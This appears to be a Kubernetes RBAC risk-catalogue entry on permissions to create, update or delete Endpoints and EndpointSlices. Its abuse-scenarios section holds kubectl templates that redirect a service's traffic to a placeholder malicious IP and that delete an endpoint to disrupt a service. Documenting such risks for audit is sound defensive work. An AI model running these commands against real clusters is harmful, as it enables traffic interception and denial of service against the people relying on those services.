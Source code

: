 ```yaml
---
id: 1074
title: "Manage Endpoints or EndpointSlices in a namespace"
description: "Permits creating, updating, or deleting Endpoints/EndpointSlices for services within a specific namespace. This can lead to traffic redirection, denial of service, or network policy bypass for applications within that namespace."
category: NetworkManipulation
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                    |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| ID                      | 1074                                                                                                                     |
| Name                    | Manage Endpoints or EndpointSlices in a namespace                                                                        |
| Risk Category           | NetworkManipulation                                                                                                      |
| Risk Level              | {{< risk High >}}                                                                                                        |
| Role Type               | Role                                                                                                                     |
| API Groups              | core, discovery.k8s.io                                                                                                   |
| Resources               | endpoints, endpointslices                                                                                                |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete] · [get] · [list]                                                                |
| Tags                    | {{< tag "DenialOfService" >}} {{< tag "NetworkManipulation" >}} {{< tag "Tampering" >}} {{< tag "TrafficRedirection" >}} |

## Description

Permits creating, updating, or deleting Endpoints/EndpointSlices for services within a specific namespace. This can lead to traffic redirection, denial of service, or network policy bypass for applications within that namespace.

## Abuse Scenarios

1. Create a new Endpoint to redirect traffic for a service in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Endpoints
metadata:
  name: <service-name> # Must match an existing service name
subsets:
  - addresses:
      - ip: <malicious-ip-address>
    ports:
      - port: <service-port>
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF (redirect 'my-app-service')

```

2. Delete an existing Endpoint within the namespace, causing service disruption.

```bash
kubectl delete endpoint <endpoint-name> -n <namespace>
# Example: kubectl delete endpoint my-frontend-service -n default

```
